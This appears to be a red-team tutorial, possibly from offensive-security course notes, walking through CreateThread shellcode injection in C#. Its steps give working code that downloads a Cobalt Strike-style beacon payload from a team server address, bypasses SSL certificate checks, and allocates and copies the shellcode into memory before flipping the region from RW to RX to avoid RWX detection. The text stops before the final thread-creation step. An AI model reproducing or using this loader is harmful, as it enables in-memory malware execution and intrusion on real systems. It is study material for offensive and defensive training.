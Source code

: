 # CreateThread

The CreateThread API can be used to create a new thread within the calling process, so we'll be injecting the shellcode into the injector itself.  This is amongst the easiest and most basic type of injection.

1.  Download the shellcode from the Team Server using the **HttpClient** class.  This is disposable, so wrap it in a using statement or call the `Dispose()` method.  We also have to use the **ServerCertificateCustomValidationCallback** to ignore the self-signed SSL error.
```csharp
static async Task Main(string[] args)
{
    byte[] shellcode;

    using (var handler = new HttpClientHandler())
    {
        // ignore ssl, because self-signed
        handler.ServerCertificateCustomValidationCallback = (message, cert, chain, sslPolicyErrors) => true;

        using (var client = new HttpClient(handler))
        {
            // Download the shellcode
            shellcode = await client.GetByteArrayAsync("https://10.10.0.69/beacon.bin");
        }
    }
}
```

2.  Use **VirtualAlloc** to allocate a new region of memory within this process.  The region has to be large enough to accommodate the shellcode, so we can just use the shellcode's length as a parameter.  The API will typically round up, which is fine.  We also allocate the region with RW permission so we can avoid RWX.
```csharp
// Allocate a region of memory in this process as RW
var baseAddress = Win32.VirtualAlloc(
    IntPtr.Zero,
    (uint)shellcode.Length,
    Win32.AllocationType.Commit | Win32.AllocationType.Reserve,
    Win32.MemoryProtection.ReadWrite);
```

3.  Now we can copy the shellcode into this region.  Because it's our own process, we can use **Marshal.Copy** instead of the WriteProcessMemory API (saves a bit of time).
```cs
// Copy the shellcode into the memory region
Marshal.Copy(shellcode, 0, baseAddress, shellcode.Length);
```

4. Before we can execute the shellcode, we have to flip the memory protection of this region from RW to RX.  **VirtualProtect** takes in the new memory protection and pops out whatever the current protection is.  This is useful to have if you were to flip it back again, but since we're not, just dispose of it with `_`.
```cs
// Change memory region to RX
Win32.VirtualProtect(
    baseAddress,
    (uint)shellcode.Length,
    Win32.MemoryProtection.ExecuteRead,
    out _);
```
